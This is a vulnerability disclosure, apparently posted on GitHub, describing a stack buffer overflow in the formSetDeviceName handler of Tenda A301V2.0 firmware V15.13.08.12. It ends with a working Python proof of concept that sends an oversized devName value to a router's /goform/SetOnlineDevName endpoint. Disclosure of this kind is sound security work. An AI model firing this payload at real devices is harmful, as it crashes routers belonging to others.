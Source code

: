 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3328.html

## Affected version

A301V2.0 Firmware  V15.13.08.12

## Vulnerability details

In the Tenda A301V2.0 Firmware  V15.13.08.12 has a stack overflow vulnerability located in the `formSetDeviceName` function. This function accepts the `devName` parameter from a POST request and passes it to the `set_device_name` function. Within `set_device_name`, the array `mib_vlaue` is fixed at 256 bytes. However, since the user has control over the input of `devName`, the statement `sprintf(mib_vlaue, "%s;1", dev_name);` leads to a buffer overflow. The user-supplied `devName` can exceed the capacity of the `mib_vlaue` array, thus triggering this security vulnerability.

![image-20240318160539150](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160539150.png)

![image-20240318160601400](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160601400.png)

![image-20240318160553514](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318160553514.png)

## PoC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetOnlineDevName"
payload = b"a"*2000

data = {"mac": 1,"devName": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240612212644020](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240612212644020.png)
